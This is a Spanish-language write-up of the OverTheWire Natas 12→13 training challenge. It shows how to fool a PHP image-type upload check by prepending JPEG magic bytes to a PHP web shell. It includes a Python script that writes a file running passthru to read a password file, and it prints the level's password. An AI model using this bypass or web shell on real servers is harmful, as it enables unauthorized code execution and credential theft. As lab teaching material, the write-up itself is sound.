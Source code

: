 #Natas Level 12 → Level 13

Username: natas13

URL:      http://natas13.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas13.natas.labs.overthewire.org** 
- **Usuario    : natas13**
- **Contraseña : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un mensaje parecido a la prueba anterior indicando que solamente podemos subir ficheros **JPG** 

```html
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
```

Vamos a ver si ha cambiado el código fuente desde la prueba anterior.

```php
<?
...
if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
...
```

En principio todas las demás funciones son iguales menos una parte del código de arriba que comprueba si el fichero subido es un fichero **JPG**

```php
...
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) 
{ 
        echo "File is not an image"; 
}
...
```

Bueno, en este caso tenemos que **engañar** a la función **exif_imagetype()** para que acepte el **phpShell.php** como imagen.

¿Y como hacemos eso?

Primero que nada vamos a ver que hace exactamente la funcion **exif_imagetype()**

Vamos a la página oficial de [PHP](http://php.net/docs.php) y miramos la documentación para la función [exif_imagetype](http://php.net/manual/es/function.exif-imagetype.php)

Leemos la documentación y parece que solamente **lee** los **primeros bytes** del fichero para determinar de que tipo es.

```php
exif_imagetype

(PHP 4 >= 4.3.0, PHP 5, PHP 7)
exif_imagetype — Determinar el tipo de una imagen

Descripción 

int exif_imagetype ( string $filename )
exif_imagetype() lee los primeros bytes de una imagen y comprueba su firma.
```

Ahora la pregunta es:
- ¿Cómo **cambiamos** los **primeros bytes** del fichero **phpShell.php** para que sea un **JPG**? 
- ¿Cómo sabemos que **parametro** tenemos que escribir en los **primeros bytes** del fichero para que el **fichero.php** parezca un **JPG**?

Vamos por partes. Primero tenemos que saber como identifica la función **exif_imagetype()** que un fichero es de un tipo u otro leyendo lo **primeros bytes**. 

Buscamos en **Google** acerca de los primeros bytes de los ficheros y nos encontramos con una web [Magic Numbers](https://asecuritysite.com/forensics/magic) que nos hablan de los **primero bytes** de distintos ficheros (JPG,PNG,ZIP,...) que al parecer se llaman **MAGIC NUMBERS**

A nosotros nos interesa el valor del fichero **JPG**

```html
JPEG graphic file	.jpg	FFD8
```

Por lo tanto  tenemos que cambiar los **primeros bytes** del fichero **phpShell.php** a:

```hex
FFD8
```

Podemos utilizar un **Editor Hexadecimal** para cambiarle los primeros bytes o hacer un **Script** en **Python** que nos ayude a escribir eso bytes en el fichero.

El script en **Python** es bastante sencillo de hacer, por lo que lo hacemos así :smile:

Le llamamos **phpShellPython.py** 

```python
fichero = open('phpShell.php','w')  
fichero.write('\xFF\xD8' + '<? passthru("cat /etc/natas_webpass/natas14"); ?>')  
fichero.close()
```

- 1 Abrimos el fichero **phpShell.php** en modo **escritura**
- 2 Escribimos los **primeros bytes** -> **FFD8** al fichero
- 3 Seguimos escribiendo nuestro código para que nos devuelva la contraseña
    - ```php <? passthru("cat /etc/natas_webpass/natas14"); ?> ``` 
- 4 Cerramos el fichero
    
Abrimos el editor **nano** y escribimos el código. A continuación lanzamos el script con el comando:

```bash
python phpShellPython.py
```

Bueno ya tenemos el fichero **phpShell.php** recién salido del horno y ahora solo nos queda realizar las mismas acciones que en la prueba anterior. 

Configuramos el **Proxy** a **localhost:8080** en el navegador y arrancamos el **BURP** para interceptar el tráfico que enviamos y poder modificarlo posteriormente y saltarnos los controles de acceso.








 












 




